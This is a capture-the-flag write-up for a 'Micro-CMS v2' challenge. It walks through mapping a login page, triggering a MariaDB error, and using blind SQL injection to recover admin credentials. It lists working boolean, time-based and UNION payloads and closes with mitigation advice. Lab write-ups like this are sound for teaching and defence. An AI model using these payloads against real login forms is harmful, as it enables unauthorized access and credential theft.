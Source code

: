 # Micro-CMS-v2-Blind-SQLi

I. Introduction

        Blind SQL injection (SQLi) is a type of SQL injection attack where an attacker can infer the content of the
    database without directly extracting the data. This is achieved by sending crafted SQL queries to the
    application and analyzing the response of the server, without actually seeing the database content. Blind SQLi
    is commonly used in CTF (Capture the Flag) challenges as a way to test the ability of participants to exploit
    vulnerabilities in web applications. By exploiting Blind SQLi, participants can demonstrate their skills in 
    finding and exploiting vulnerabilities, as well as their ability to analyze application behavior and logic to
    infer the content of the database. Blind SQLi challenges can vary in complexity and difficulty, ranging from
    basic Boolean-based techniques to more advanced techniques involving time delays, error messages, and other
    indicators.

II. Information Gathering

        After spinning up burp and enabling the proxy I loaded into the website and noticed a CMS changelog link.
    Upon viewing the page I can see they added a login page as well as a change that allows only admins to edit
    and add pages. Continuing mapping the application I click the Markdown Test and notice its similar to CMSv1
    but whenever you try to edit that page is directs you to a login page /admin. The last link is the Create a
    new page which also redirects you to the /admin page. With all of these POST/GET requests in Burp we can start
    to see these interactions in more detail. This concludes the mapping of the application for now.
           

III. Exploitation

        Now that the application has been mapped with all of its functionality I start to fuzz my attack surface.
    I started with the login page as that would open up the most functionality to us. I started by inputting some 
    common username/passwords and notice I get an Unknown User error. None of the easy gimmies worked like
    admin/password...etc. Onto special characters for SQL considering it is a login page and would you look at that. 
    A single apostrophe has done the job. We get an error with the exact SQL query being placed into the backend as
    well as which DB is in use, which is MariaDB. Now I know that I can escape it and write my own magic! I start    
    small and build up... 
    
    **Testing Boolean Payloads:**
    ~~~
    payload1: ' OR (1=1)# // Well that's nice, no errors and it ALSO displays a new error "Invalid Password"
    
    Payload2: ' OR (SELECT CASE WHEN (1=1) THEN 1=1 ELSE 1=2 END)# // Changing the conditionals works
    ~~~
    **Enumeration Test:**
    ~~~
    Payload3: ' OR (SELECT CASE WHEN SUBSTRING(@@version,1,1)='1' THEN 1=1 ELSE 1=2 END)# //Enumerates DB version
    ~~~
    **Enumerating Length of the 1st username:**
    ~~~
    Payload4: ' OR LENGTH(username)=5# // Enums length of username
   
    Payload5: ' OR LENGTH(password)=5# // Enums length of password
    ~~~
    **Enumerating the user/pass:**
    ~~~
    Payload6:' OR (SELECT CASE WHEN SUBSTRING(username,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    Payload7:' OR (SELECT CASE WHEN SUBSTRING(password,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    ~~~  
    
   **Other Avenues for exploiting VIA TIME BASED AND UNION SELECT:**
    ~~~
    Payload: ' OR (UNION SELECT NULL#) // This also doesn't give us an error but adding a second NULL value errors   
    
    Payload: ' OR (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN sleep(10) ELSE 1=2 END)# //induces sleep if 
    condition is true. This would be better if the default login creds message was standard
    ~~~
    

    
    

IV. Flag Retrieval

    After you have retrieved the username/password you are able to login and are presented with a flag. 

V. Conclusion/Mitigation

    In summary I was able to use Blind SQLi to enumerate database contents and gain credentials to an admins account.
    For mitigation I would sanitize user input before passing it to the database and use parameterized queries. I would also give a single 
    generic message when trying to login like "unknown login credentials" instead of "Unknown Username" and "Invalid password". Even if SQLi
    wasn't present the ungeneric error messages would lead to username enumeration.
